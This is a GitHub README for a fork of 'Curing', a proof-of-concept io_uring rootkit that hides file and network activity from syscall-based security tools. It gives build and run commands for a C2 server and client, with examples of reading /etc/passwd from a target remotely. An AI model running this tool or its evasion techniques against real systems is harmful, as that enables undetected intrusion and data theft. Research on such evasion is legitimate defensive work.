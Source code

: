 # Curing 💊 - Enhanced Interactive Version

**Curing** is a POC rootkit that uses `io_uring` to perform file operations and network communication without traditional syscalls, making it invisible to security tools that only monitor syscalls.

## 🆕 Enhanced Features (This Fork)

This enhanced version adds **interactive file reading capabilities** and **flexible deployment options**:

- 🎯 **Interactive Mode**: Real-time file reading with command-line interface
- 🌐 **Flexible Networking**: Support for custom IP addresses and ports
- ⚙️ **Command-line Arguments**: Override config files with CLI parameters
- 📁 **Any File Access**: Read any accessible file on the target system
- 🔧 **Easy Deployment**: Simple setup for local testing or remote operations

## Original Project

The original Curing project was created by [amitschendel](https://github.com/amitschendel/curing) and demonstrates io_uring bypass techniques against Linux security tools. The idea was born at CCC conference #38c3.

📖 **Original article**: [io_uring rootkit bypasses Linux security](https://www.armosec.io/blog/io_uring-rootkit-bypasses-linux-security)

## 🚀 Quick Start

### 1. Build
```bash
make clean && make all
```

### 2. Start Server
```bash
# Default (localhost:8888)
./build/server

# Custom host and port
./build/server -host 0.0.0.0 -port 9999
```

### 3. Interactive Client
```bash
# Local connection
./build/client -interactive

# Remote connection
./build/client -interactive -host 192.168.1.100 -port 9999
```

### 4. Read Files
```
> /etc/passwd
> /etc/hostname
> /tmp/myfile.txt
> quit
```

## 📁 Project Structure

```
curing/
├── cmd/                    # Client application
├── server/                 # Server application  
├── pkg/
│   ├── client/            # Client implementation
│   ├── server/            # Server implementation
│   ├── common/            # Shared types and commands
│   └── config/            # Configuration management
├── poc/                   # Original POC demonstration
└── io_uring_example/      # Simple io_uring usage example
```

## 📚 Documentation

- **[Quick Start Guide](QUICK_START.md)** - 5-minute setup guide
- **[Original POC Demo](poc/POC.md)** - Falco bypass demonstration
- **[io_uring Example](io_uring_example/README.md)** - Simple io_uring usage
- **[Changelog](CHANGELOG.md)** - What's new in this version

## 🔧 How it works

### Enhanced Interactive Mode
1. **Client** connects to server using io_uring network operations
2. **User** enters file paths interactively  
3. **Server** reads files using io_uring file operations
4. **Results** are sent back through io_uring network operations
5. **No traditional syscalls** are used for file access or network communication

### Original C2 Mode
The original mode works as a traditional C2 where the client pulls predefined commands from the server.

## ✨ Features

### Enhanced Features (This Fork)
- ✅ **Interactive file reading** - Real-time file access
- ✅ **Flexible networking** - Custom IP/port support  
- ✅ **Command-line arguments** - Override config files
- ✅ **Remote deployment** - Easy setup across networks
- ✅ **Help system** - Built-in usage guides

### Original Features
- ✅ **Read files** - Using io_uring file operations
- ✅ **Write files** - Using io_uring file operations  
- ✅ **Create symbolic links** - Using io_uring operations
- ✅ **C2 communication** - Using io_uring network operations
- ❌ **Execute processes** - [Blocked by io_uring limitations](https://github.com/axboe/liburing/discussions/1307)

## 🔍 Bypass Verification

Verify that no traditional syscalls are used:
```bash
# Monitor file operations
strace -f -e trace=openat,read,write -p $(pgrep server)

# Monitor network operations  
strace -f -e trace=socket,connect,send,recv -p $(pgrep client)
```

You should see **no file or network related syscalls** because everything goes through io_uring.

## 📋 Requirements

- **Linux kernel 5.1+** (io_uring support)
- **Go 1.21.6+** 
- **Build tools** (make, gcc for io_uring example)

## ⚠️ Disclaimer

**FOR SECURITY RESEARCH AND EDUCATION ONLY**

This project demonstrates io_uring bypass techniques against syscall-based security monitoring. 
- ✅ Security research and education
- ✅ Testing your own systems
- ❌ Unauthorized access to systems
- ❌ Malicious activities

Users are responsible for compliance with applicable laws and regulations.

## 🤝 Contributing

This is an enhanced fork of the original [Curing project](https://github.com/amitschendel/curing). 

**Enhancements in this fork:**
- Interactive file reading capabilities
- Flexible networking with custom IP/port support
- Command-line argument system
- Enhanced documentation and user experience

**Original project credit:** [amitschendel](https://github.com/amitschendel/curing)